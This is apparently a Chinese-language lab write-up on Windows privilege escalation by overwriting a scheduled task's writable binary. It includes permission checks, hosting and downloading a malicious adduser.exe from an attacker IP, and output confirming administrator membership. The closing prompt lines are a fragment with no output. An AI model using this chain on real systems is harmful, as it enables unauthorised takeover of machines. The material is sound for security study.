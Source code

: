 ```
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        One Time Only, Minute
Start Time:                           7:37:21 AM
Start Date:                           7/4/2022
...
```
> `/fo LIST`：指定輸出格式為 List
`/v`：顯示所有 Verbose
>> 列出大量的輸出，要從中找到符合上述 3 個 Question 的 task\

找到`\Microsoft\CacheCleanup` 由 daveadmin 創建\
條件: 在steve的 Pictures 主目錄中執行 BackendCacheCleanup.exe。且根據 Last Run Time 與 Next Run Time 可以猜測該任務每分鐘執行一次，執行身份以 daveadmin 運行。

#### 2. 查看指定 Task 權限
```
PS C:\Users\steve> icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
C:\Users\steve\Pictures\BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                BUILTIN\Administrators:(I)(F)
                                                CLIENTWK220\steve:(I)(F)
                                                CLIENTWK220\offsec:(I)(F)
```
> 擁有所有存取權限（F）

#### 3. 利用 Malicious exe 將原始 Task 覆蓋
可以使用上方 [Service Binary Hijacking](#Service-Binary-Hijacking) 編譯好的 adduser.exe 
```
┌──(chw㉿CHW)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
```
PS C:\Users\steve> iwr -Uri http://192.168.45.212/adduser.exe -Outfile BackendCacheCleanup.exe
PS C:\Users\steve> move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
PS C:\Users\steve> move .\BackendCacheCleanup.exe .\Pictures\
```
> 成功利用 Malicious exe 覆蓋 BackendCacheCleanup.exe

#### 4. 驗證提權結果
```
PS C:\Users\steve> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.

PS C:\Users\steve> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
BackupAdmin
dave2
daveadmin
offsec
The command completed successfully.
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir